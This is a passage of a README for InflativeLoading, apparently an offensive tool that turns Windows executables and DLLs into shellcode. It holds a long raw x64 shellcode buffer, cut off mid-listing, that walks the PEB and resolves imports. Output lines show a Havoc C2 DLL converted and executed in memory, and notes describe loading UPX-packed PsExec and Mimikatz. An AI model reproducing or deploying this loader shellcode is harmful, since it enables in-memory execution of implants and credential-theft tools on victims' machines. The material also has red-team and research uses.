 ```powershell
buf += b"\x48\x83\xe4\xf0\x48\x31\xd2\x65\x48\x8b\x42\x60\x48\x8b\x70\x20\x48\x83\xc6\x70"
buf += b"\xc6\x06\x0c\xc6\x46\x02\xff\x48\x8b\x76\x08\xc7\x06\x31\x00\x2e\x00\xc7\x46\x04"
buf += b"\x65\x00\x78\x00\xc7\x46\x08\x65\x00\x20\x00\xc6\x46\x0c\x00\x48\x8b\x70\x18\x48"
buf += b"\x8b\x76\x30\x4c\x8b\x0e\x4d\x8b\x09\x4d\x8b\x49\x10\xeb\x66\x41\x8b\x49\x3c\x4d"
buf += b"\x31\xff\x41\xb7\x88\x4d\x01\xcf\x49\x01\xcf\x45\x8b\x3f\x4d\x01\xcf\x41\x8b\x4f"
buf += b"\x18\x45\x8b\x77\x20\x4d\x01\xce\xe3\x3f\xff\xc9\x48\x31\xf6\x41\x8b\x34\x8e\x4c"
buf += b"\x01\xce\x48\x31\xc0\x48\x31\xd2\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb"
buf += b"\xf4\x44\x39\xc2\x75\xda\x45\x8b\x57\x24\x4d\x01\xca\x41\x0f\xb7\x0c\x4a\x45\x8b"
buf += b"\x5f\x1c\x4d\x01\xcb\x41\x8b\x04\x8b\x4c\x01\xc8\xc3\x48\x31\xc0\xc3\x4c\x89\xcd"
buf += b"\x41\xb8\x8e\x4e\x0e\xec\xe8\x8c\xff\xff\xff\x49\x89\xc4\x41\xb8\xaa\xfc\x0d\x7c"
buf += b"\xe8\x7e\xff\xff\xff\x49\x89\xc5\xeb\x0a\x48\x31\xc0\x8b\x43\x3c\x48\x01\xd8\xc3"
buf += b"\x48\x31\xf6\x48\x31\xff\x48\x8d\x1d\x17\x0f\x00\x00\xe8\xe4\xff\xff\xff\x8b\xb0"
buf += b"\x90\x00\x00\x00\x48\x01\xde\x8b\xb8\x94\x00\x00\x00\x48\x01\xf7\x48\x39\xfe\x74"
buf += b"\x74\x48\x31\xd2\x8b\x56\x10\x48\x85\xd2\x74\x69\x48\x31\xc9\x8b\x4e\x0c\x48\x01"
buf += b"\xd9\x41\xff\xd4\x48\x31\xd2\x8b\x56\x10\x48\x01\xda\x48\x89\xc1\x49\x89\xd6\x4c"
buf += b"\x89\xf2\x48\x8b\x12\x48\x85\xd2\x74\x3d\x49\xb9\x00\x00\x00\x00\x00\x00\x00\x80"
buf += b"\x4c\x85\xca\x48\x89\xcd\x75\x0c\x48\x01\xda\x48\x83\xc2\x02\x41\xff\xd5\xeb\x10"
buf += b"\x49\xb9\xff\xff\xff\xff\xff\xff\xff\x7f\x4c\x21\xca\x41\xff\xd5\x48\x89\xe9\x4c"
buf += b"\x89\xf2\x48\x89\x02\x49\x83\xc6\x08\xeb\xb8\x48\x83\xc6\x14\xeb\x87\x48\x31\xf6"
buf += b"\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xff\xe8\x45\xff\xff\xff\x8b\xb0\xb0"
......126576 more bytes......


Generated shellcode successfully saved in file havocdllsc.bin


[#] Shellcode located at address 0x2108a9d0000

[!] PRESS TO EXECUTE SHELLCODED EXE...
```

![image](/screenshot/callback.jpg)


### 2/19/2024 Added Basic Support For UPX Packed EXE
I slightly modified the code that fixes IAT, because I found some lines of code are unnecessary. After this, InflativeLoading can execute **some UPX packed EXE programs**, including **calc.exe**, **PsExec**. However, only some of packed programs. Firstly, I will not likely test all possible packing configurations for all tested programs. For the second reason, please continue to read:

For programs that do not have `delayed import directory`, InflativeLoading can execute UPX-packed versions of them. However, unlike unpacked programs, packed programs have all ILT empty.

Take normal calc.exe as an example, ILT and IAT are identical for all modules.
![image](/screenshot/calc_pebear.jpg)

But for the UPX packed calc.exe, ILT is empty for all entries in Import Directory.
![image](/screenshot/packed_calc.jpg)

But if the program has delayed import directory, like Mimikatz, it gets more complex.

For the normal mimikatz.exe, the delayed import directory is as follows:
![image](/screenshot/mimikat_pebear.jpg)
